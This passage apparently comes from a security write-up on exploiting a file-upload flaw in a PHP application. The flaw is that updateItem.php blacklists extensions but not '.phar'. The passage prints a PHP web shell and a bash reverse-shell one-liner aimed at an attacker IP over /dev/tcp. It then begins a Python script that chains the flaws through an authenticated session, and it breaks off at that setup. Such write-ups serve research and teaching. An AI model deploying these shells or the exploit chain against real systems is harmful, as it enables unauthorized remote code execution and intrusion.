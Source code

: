 However, looking at `updateItem.php` code, we noticed that there is no mime type whitelist, only extensions blacklist! Much easier to bypass and upload a malicious file!

![](Untitled5.png)

Another thing to note is that there is no blacklist for the extension `phar`. 

Phar files can execute PHP code. We could upload the following `shell.phar` file:

```php
<?php system($_REQUEST["cmd"]); ?>
```

Or could even be more direct to a reverse shell:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.139.132/4444 0>&1'"); ?>
```

### Chaining all together in a Python script

In order to create a script to chain all these vulnerabilities and return a shell we will need to manage a login session so we can use the authenticated cookies to perform other tasks. The final script is as follow:

```python
from __future__ import division
import sys
import requests
from bs4 import BeautifulSoup

# Input parameter
if(len(sys.argv) < 4) :
    print("[+] Usage: python3 <Target_URL> user_admin <Your_IP>")
    print("[+] Example: python3 %s http://192.168.150.134 admin 127.0.0.1" % sys.argv[0])
    exit()

target = sys.argv[1]
userName = sys.argv[2]
reverseIp = sys.argv[3]
session = requests.Session()
```